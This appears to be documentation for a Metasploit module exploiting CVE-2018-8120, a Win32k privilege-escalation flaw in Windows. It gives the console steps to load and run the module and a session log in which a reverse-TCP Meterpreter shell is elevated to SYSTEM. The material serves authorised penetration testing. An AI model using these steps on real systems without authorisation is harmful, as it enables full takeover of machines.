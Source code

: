 ## Overview

An elevation of privilege vulnerability exists in Windows when the Win32k component fails to properly handle objects in memory. An attacker who successfully exploited this vulnerability could run arbitrary code in kernel mode. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights.

To exploit this vulnerability, an attacker would first have to log on to the system. An attacker could then run a specially crafted application that could exploit the vulnerability and take control of an affected system.

The update addresses this vulnerability by correcting how Win32k handles objects in memory.

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8120
* http://bigric3.blogspot.com/2018/05/cve-2018-8120-analysis-and-exploit.html
* https://github.com/bigric3/cve-2018-8120
* https://github.com/unamer/CVE-2018-8120

## Verification steps

1. Start `msfconsole`
2. Get a session
3. `use exploit/windows/local/ms18_8120_win32k_privesc`
4. `set SESSION [SESSION]`
5. `set LHOST [LHOST]`
6. `exploit`

## Usage

```
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.1.102:4444 
[*] Sending stage (206403 bytes) to 192.168.1.103
[*] Meterpreter session 1 opened (192.168.1.102:4444 -> 192.168.1.103:56748) at 2018-10-10 21:55:52 +0530

meterpreter > getuid 
Server username: zero-PC\zero
meterpreter > background 
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/ms18_8120_win32k_privesc 
msf exploit(windows/local/ms18_8120_win32k_privesc) > set SESSION 1
SESSION => 1
msf exploit(windows/local/ms18_8120_win32k_privesc) > set LHOST 192.168.1.102
LHOST => 192.168.1.102
msf exploit(windows/local/ms18_8120_win32k_privesc) > run

[*] Started reverse TCP handler on 192.168.1.102:4444 
[+] Exploiting SetImeInfoEx Win32k NULL Pointer Dereference
[+] Exploit finished, wait for privileged payload execution to complete.
[*] Sending stage (206403 bytes) to 192.168.1.103
[*] Meterpreter session 2 opened (192.168.1.102:4444 -> 192.168.1.103:56749) at 2018-10-10 21:56:35 +0530

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
